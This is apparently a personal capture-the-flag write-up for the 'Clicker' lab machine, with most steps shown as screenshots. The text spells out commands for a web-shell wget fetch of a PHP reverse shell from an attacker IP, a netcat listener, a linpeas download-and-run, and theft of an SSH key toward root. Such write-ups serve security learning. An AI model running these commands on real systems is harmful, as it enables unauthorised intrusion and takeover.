 ## Initial Foothold
Threader3000 output:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/d83bdf8f-3087-46af-946b-a0344f5eaa52)

nmap scan:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/d79217f2-b1fa-4899-9b3e-4083800ab551)

Mounting through rpcbind we get the source code to the website:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/a4d493c3-c315-4bd0-8961-19fb17aa2cfe)

Going to the http page, I see that clicker.htb is a hostname, so I put it in /etc/hosts:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/f3440627-79ea-4910-8c3d-eb57c8124ee5)

ffuf scan:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/2a60e4e1-06cc-405f-a9bb-d95f003467f9)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/93acf304-50df-4fcc-b61d-4cdf8500032b)
![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/0eb00477-1b1d-4b74-aaa9-4f53aef5cdc1)
![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/d8dc8649-b141-4ed7-815c-69a93f9ca79f)

Looking at save_game.php, we see that they are likely trying to prevent us from setting our "role" to admin:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/0601bdfb-aaad-4af3-ab3d-b12fdad1d0af)

CRLF (Carriage Return Line Feed) Bypass to get Admin on webapp:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/350ed58b-d660-4c8f-af7b-575b22f275ea)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/5a7bc25f-74ec-4a0d-ae18-cd59db2edba9)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/5b4d2183-a6c5-4dda-a3f1-9f02e2d71865)

Setting payload in nickname field that will be displayed in the exported file:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/ee9b195d-20a2-46de-adf1-4d7f71d401bb)

Setting the exported file extension to .php so it can be executed:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/a4eb0281-5c97-4b6d-81f5-fcb2b8d15519)

RCE achieved:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/58cf322c-c3bf-4257-8597-78372fdca035)

Host a server with python locally and download the php reverse shell onto the target machine:
- https://github.com/ivan-sincek/php-reverse-shell
- python3 -m http.server 80
- http://clicker.htb/exports/top_players_hsyxecsn.php?cmd=wget%20http://10.10.14.13/flexibleshell.php

Listen and execute the rshell:
- rlwrap nc -nvlp 1234
- http://clicker.htb/exports/top_players_hsyxecsn.php?cmd=php%20flexibleshell.php
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/cf60cc8f-313a-46a3-980c-c2bbf3b003d9)

## Privesc
stabilize shell:
- python3 -c "import pty;pty.spawn('/bin/sh')"
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/25cb1630-f605-4662-8943-bc6e390989e4)
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/88a83453-bbe3-4c31-a144-5d027fbc99dd)

download and execute linpeas:
- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- wget 10.10.14.13/linpeas.sh
- chmod +x linpeas.sh
- ./linpeas.sh
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/fdaab627-91c0-483c-ba60-05818d1acea5)

There is a functionality in this SUID binary that allows us to read jack's private ssh key (the program is run inside jack's home directory):

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/3c5ca730-ecc1-4326-a932-dcd6d33656bb)

Copy/paste it over onto local machine into "id_rsa", and then run "ssh jack@clicker.htb -i id_rsa":

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/59b04f7e-32d7-4759-a9c6-940461bac970)


Checking out sudo permissions, we see /opt/monitor.sh which is a perl script allowing us to use an perl_startup privesc:
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/57e5bfda-9ab9-472c-9b64-e5f3be8958e6)
- https://www.exploit-db.com/exploits/39702

Exploit to give bash an SUID bit and get root:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/5591564a-e3db-4930-818e-f307f2f5120f)

## What I learned
CRLF (Carriage Return Line Feed) Bypass, perl_startup privesc
